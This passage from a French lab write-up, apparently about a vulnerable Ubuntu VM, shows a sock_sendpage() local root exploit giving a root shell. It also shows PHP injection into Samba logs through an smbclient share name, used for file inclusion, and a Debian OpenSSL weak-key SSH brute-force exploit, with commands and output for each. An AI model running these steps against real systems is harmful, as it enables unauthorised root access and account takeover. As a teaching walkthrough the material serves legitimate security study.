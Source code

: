 On récupère un exploit pour passer root. Ici [un exploit pour sock\_sendpage() qui utilise la présence de PulseAudio sur le système](http://www.exploit-db.com/exploits/9641/) :  

```plain
vmware@ubuntuvm:~$ tar zxvf 2009-linux-sendpage3.tar.gz 
linux-sendpage3/
linux-sendpage3/sesearch-mmap_zero
linux-sendpage3/run
linux-sendpage3/exploit-pulseaudio.c
linux-sendpage3/exploit.c
linux-sendpage3/runcon-mmap_zero
vmware@ubuntuvm:~$ cd linux-sendpage3/
vmware@ubuntuvm:~/linux-sendpage3$ ls
exploit.c  exploit-pulseaudio.c  run  runcon-mmap_zero  sesearch-mmap_zero
vmware@ubuntuvm:~/linux-sendpage3$ ./run
# id
uid=0(root) gid=0(root) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),104(scanner),111(lpadmin),112(admin),1000(vmware)
```

Que demander de plus ?  

After-pwn
---------

J'ai tout de même jeté un œil sur les fichiers de logs pour voir si on pouvait aller plus loin avec la faille include() et... on ne pouvait pas car les accès sont tous trop restreints.  

Toutefois, admettons que les logs de Samba fussent lisibles on aurait d'abord remarqué que leur nom contient l'adresse IP ou le nom d'hôte du client (comme indiqué dans */etc/samba/smb.conf*) :  

```plain
# This tells Samba to use a separate log file for each machine
# that connects
   log file = /var/log/samba/log.%m
```

Il aurait alors été possible d'injecter du PHP dans les logs en faisant appel à un partage inexistant :  

```plain
$ smbclient -I 192.168.1.27  '//UBUNTUVM/<?php phpinfo(); ?>' -U "" -N
```

Finalement l'inclusion aurait fonctionné avec le fichier */var/log/samba/log.192.168.1.3*.  

Additionnellement, je suis passé à côté de [la faille d'implémentation d'*OpenSSL* par *Debian*](https://en.wikipedia.org/wiki/OpenSSL#Vulnerability_in_the_Debian_implementation).  

Pour faire court, cette faille permet de retrouver une clé privée valide à partir de la base limitée de clés que le générateur d'aléa cassé peut générer.  

Un exmple sera plus parlant. On trouve [un exploit en Python sur exploit-db](http://www.exploit-db.com/exploits/5720/) :  

```plain
$ python bkeys.py

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
./exploit.py <dir> <host> <user> [[port] [threads]]
    <dir>: Path to SSH privatekeys (ex. /home/john/keys) without final slash
    <host>: The victim host
    <user>: The user of the victim host
    [port]: The SSH port of the victim host (default 22)
    [threads]: Number of threads (default 4) Too big numer is bad

$ python bkeys.py rsa/2048/ 192.168.1.27 obama 

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org

Tested 214 keys | Remaining 32554 keys | Aprox. Speed 42/sec
```